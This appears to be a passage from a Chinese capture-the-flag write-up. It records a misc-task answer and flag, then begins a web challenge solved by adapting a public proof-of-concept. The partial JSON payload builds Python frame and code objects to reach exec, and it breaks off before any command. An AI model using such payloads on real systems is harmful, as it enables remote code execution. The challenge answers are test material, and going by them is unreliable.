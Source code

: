 ### task6

不学地理是这样的，☝️🤓可以算出海浪峰值周期40000多秒。

找到现成的数据就好了：

![微信图片_20250503200140](微信图片_20250503200140.png)

ans：<u>**10**</u>



### flag

![微信图片_20250503200530](微信图片_20250503200530.png)

```
Flag: W4terCTF{Sc1ENc3_UndOUBTEd1Y_IMMorT4I_5EA_Un4R9U481y_IlLumln4tlnG}
```



# WEB

## Core Dump Error（签到题）

半夜误打误撞做出来了。

原来视频里面的issue只是被close而不是被delete了 hhh。

只要找到相关issue的POC链然后改一下exec执行的命令就好了

```json
{
    "objects": {
      "1": {
        "type": "frame",
        "attrs": {
          "f_lineno": "11",
          "f_locals": "12",
          "f_code": "13",
          "f_globals": "14",
          "f_back": "15"
        }
      },
      "11": {
        "type": "int",
        "value": 1
      },
      "12": {
        "type": "dict",
        "value": {}
      },
      "13": {
        "type": "code",
        "attrs": {
          "co_filename": "131",
          "co_name": "132"
        }
      },
      "14": {
        "type": "dict",
        "value": {
          "141": "143",
          "142": "144"
        }
```